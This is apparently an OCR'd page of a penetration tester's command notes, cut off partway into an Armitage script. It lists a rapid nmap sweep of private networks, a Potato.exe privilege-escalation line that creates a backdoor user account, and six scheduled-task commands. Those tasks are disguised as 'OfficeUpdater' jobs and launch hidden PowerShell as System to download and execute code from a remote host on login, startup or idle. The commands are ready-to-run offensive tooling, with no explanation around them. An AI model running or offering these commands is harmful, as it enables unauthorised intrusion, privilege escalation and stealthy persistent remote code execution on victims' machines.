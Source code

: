             # idea for new and improved smart nmap ? just worry about the last oct guessing .. so .1 .2 .254 .10 .100 etc..
            nmap --max-retries 1 --min-parallelism 100 172.16-31.0-255.1,2,3,4,5,10,20,30,100,254 -sV 172_sV_GUESS --top-ports 20 -T5
            nmap --max-retries 1 --min-parallelism 100 10.0-255.0-255.1,2,3,10,20,30,100,254 -sV 10_sV_GUESS --top-ports 20 -T5
            
             
            # potato PO TAT O ! !!!!!!!!!!!!!!!!!!!!!
            Potato.exe -ip 25.0.0.151 -cmd "c:\\windows\\system32\\cmd.exe /k net user add SUCKITGARY 123QWE#" 
            
            
            # you know ...
            
            #(X86) - On User Login
            schtasks /create /tn OfficeUpdaterA /tr "c:\windows\system32\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring(''http://192.168.95.195:8080/kBBldxiub6'''))'" /sc onlogon /ru System
             
            #(X86) - On System Start
            schtasks /create /tn OfficeUpdaterB /tr "c:\windows\system32\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring(''http://192.168.95.195:8080/kBBldxiub6'''))'" /sc onstart /ru System
             
            #(X86) - On User Idle (30mins)
            schtasks /create /tn OfficeUpdaterC /tr "c:\windows\system32\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring(''http://192.168.95.195:8080/kBBldxiub6'''))'" /sc onidle /i 30
             
            #(X64) - On User Login
            schtasks /create /tn OfficeUpdaterA /tr "c:\windows\syswow64\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring(''http://192.168.95.195:8080/kBBldxiub6'''))'" /sc onlogon /ru System
             
            #(X64) - On System Start
            schtasks /create /tn OfficeUpdaterB /tr "c:\windows\syswow64\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring(''http://192.168.95.195:8080/kBBldxiub6'''))'" /sc onstart /ru System
             
            #(X64) - On User Idle (30mins)
            schtasks /create /tn OfficeUpdaterC /tr "c:\windows\syswow64\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring(''http://192.168.95.195:8080/kBBldxiub6'''))'" /sc onidle /i 30
            
            # armitage script for fvwm-crystal / PTF 
            cat /usr/local/sbin/armitage 
            
            cd /opt/armitage
            
            cat <<EOF> /tmp/armitage_rc
            